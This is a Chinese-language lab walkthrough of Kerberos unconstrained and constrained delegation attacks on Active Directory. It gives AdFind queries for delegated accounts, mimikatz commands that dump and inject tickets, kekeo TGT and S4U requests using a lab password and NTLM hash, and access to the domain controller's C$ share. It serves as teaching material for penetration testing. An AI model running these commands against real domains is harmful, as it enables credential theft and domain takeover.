# 1. 委派攻击介绍

在Windows 2000 Server首次发布Active  Directory时，Microsoft必须提供一种简单的机制来支持用户通过kerberos向web  server进行身份验证并需要代表该用户更新后端数据库服务器上的记录的方案。这通常称为"kerberos双跳问题"，并且要求进行委派，以便web server在修改数据库记录时模拟用户。

## 1.1. 约束委派分类

非约束委派

约束委派

基于资源的约束委派

# 2. 非约束委派

非约束委派主要是通过域控访问具有非约束委派权限的域内主机上服务，会把当前的认证用户的TGT存放在ST票据中，一起发送给域内主机，域内主机会将TGT存储在lsass进程中以备下次使用。从而域内主机就能够使用这个TGT模拟认证域内主机访问服务。

## 2.1. 配置非约束委派

这里想将靶机配置上非约束委派

### 2.1.1. 域内主机配置

找到加入的主机名称，右击属性，找到委派，设置成信任计算机来委派任何服务。



### 2.1.2. 注册对象

需要先输入这个命令，才能够在用户属性中找到委派。

```
setspn -U -A priv/test webadmin
```


### 2.1.3. 域内用户配置

找到webadmin添加相应的委派，和上面主机是一样的。



## 2.2. 案例测试

这里还是依旧上线域内主机，然后进行下面的操作，这里我就不展示如何上线了，同时还需要对其进行提权，这里我直接administrator上线。

[AdFind下载](https://www.softpedia.com/get/Programming/Other-Programming-Files/AdFind.shtml)

### 2.2.1. 查询服务账户

查询域内设置了非约束委派的账户。

```
AdFind.exe -b "DC=0day,DC=org" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
```



### 2.2.2. 查询机器账户

查询域内设置了非约束委派的机器账户。

```
AdFind.exe -b "DC=0day,DC=org" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
```



### 2.2.3. 机器通讯

使用域控与委派机器通讯，为的就是让域控将直接的请求信息发送给域内主机，域内主机则会将请求的票据保存到内存中，当然这里可能会出现一个问题就是，域控平常很少主动去连接域内主机，同时就算连接，为什么需要使用查询操作。

其实这里还可以采用钓鱼的方式进行通讯，简单来说就是在域内主机上找到一台开启web服务的主机，并且控制它，挂一个黑连上去，引诱去点击，不过说真的，正常去访问网页，谁去使用域控服务器去访问网页，除非无意间。

```
net use \\WIN-U7VV2NU5E5Q


网页钓鱼：
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  
</body>
</html>
```



### 2.2.4. 导出票据

这里域控刚刚请求的票据从内存中导出来。

```
mimikatz sekurlsa::tickets /export
```





### 2.2.5. 导入票据

然后在将票据导出，其实就是伪造票据。

```
mimikatz kerberos::ptt [0;bbd89]-2-0-60a00000-Administrator@krbtgt-0DAY.ORG.kirbi
```



### 2.2.6. 连接域控

对结果进行测试，刚刚我是导入administrator，但是我切换webadmin后无法访问，然后我又将票据重新导入一下，发现是能够访问的，那么简单来说，此时就是将票据进行伪造进行访问，默认情况下票据是10小时。

```
shell dir \\OWA2010SP3\c$
```



# 3. 约束委派

非约束委派存在不安全性，所以微软在Windows server 2003中引入了约束委派，约束委派攻击主要利用被控主机设置了域控的CIFS服务的约束委派，则攻击者可以先使用S4u2seflt申请域管用户访问被控主机的ST1，然后使用S4u2Proxy以administrator身份访问域控的CIFS服务，即相当于控制了域控。

## 3.1. 配置约束委派

同样这里需要在域控上设置相应的配置，以达到实验的目的。

### 3.1.1. 域内主机配置

找到加入的主机名称，右击属性，找到委派，设置成仅信任计算机来委派制定的服务，找到域控主机名，并选择服务类型为cifs添加。


### 3.1.2. 域内主机配置

用户也是设置一样的配置。



## 3.2. 案例测试

这里我又换了一台虚拟机，之前使用Windows server 2012，是由于AF那个鬼工具报错....使用2012就没报错了，这里同样上线域内主机。

### 3.2.1. 查询服务账户

查询域内设置了约束委派的账户。

```
shell AdFind -b "DC=0day,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```



### 3.2.2. 查询机器账户

查询域内设置了约束委派的机器账户。

```
shell AdFind -b "DC=0day,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```



### 3.2.3. 获取用户的票据

使用kekeo去请求TGT，这里可以采用明文或者hash值去请求，都可以，这里还是需要注意，我再做这一步的时候kekeo老是出现问题，主要还是对语法或者输入的内容比较严格。

```
明文：
shell kekeo "tgt::ask /user:webadmin /domain:0day.org /password:admin@123" "exit"   

hash值：
shell kekeo "tgt::ask /user:webadmin /domain:0day.org /NTLM:579da618cfbfa85247acf1f800a280a4" "exit"
```



### 3.2.4. 获取域控票据

通过这刚刚生成的TGT伪造s4u请求以Administrator用户身份去访问域控的的CIFS的ST，S4U2Self 获取到的 ST1 以及 S4U2Proxy 获取到的 AD-2008 CIFS 服务的 ST2 会保存在当前⽬录下。

所以在当前目录下会出现两个新的票据。

```
shell kekeo.exe "tgs::s4u /tgt:TGT_webadmin@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi /user:Administrator@0day.org /service:cifs/OWA2010SP3.0day.org" "exit"

第一个斜杠后面的是你刚刚生成的TGT伪造的票据名称。
第二个斜杠后面的是以administrator身份去访问，注意要在后面添加上域名哦。
第三个斜杠后面的是设置的CIFS的域控主机名与域名
```



### 3.2.5. 导入票据

使用mimikatz注入此票据，你可以看那个名称最长就是那个票据，再次之前你可以测试一下，正常情况下是无法访问的，当然你如果使用高权限的话，可能会成功，是由于内存中存在其它票据，而为了实验的严谨，可以使用低权限的账户shell，来导入，在导入前可以进行测试，最好是直接清除票据后，再进行导入。

```
mimikatz kerberos::ptt TGS_Administrator@0day.org@0DAY.ORG_cifs~OWA2010SP3.0day.org@0DAY.ORG.kirbi

shell dir \\OWA2010SP3\c$
```



